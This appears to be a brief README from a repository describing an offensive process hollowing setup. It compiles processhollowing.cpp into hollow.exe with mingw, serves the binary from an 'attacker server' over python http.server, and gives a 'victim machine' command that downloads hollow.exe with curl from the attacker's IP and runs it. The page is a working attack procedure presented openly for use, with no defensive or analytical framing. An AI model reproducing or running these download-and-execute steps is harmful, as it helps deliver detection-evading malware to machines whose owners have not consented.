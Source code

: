 # Attacker server
- Create a C++ file to complile exe (shell.cpp)
- Compile exe file from C++ file (32bit version):
```bash
i686-w64-mingw32-g++ -o hollow.exe processhollowing.cpp -static-libgcc -static-libstdc++
```
- Run listening server
```bash
python -m http.server 80
```

# Victime machine
```bash
curl -O http://ip/hollow.exe
.\hollow.exe
```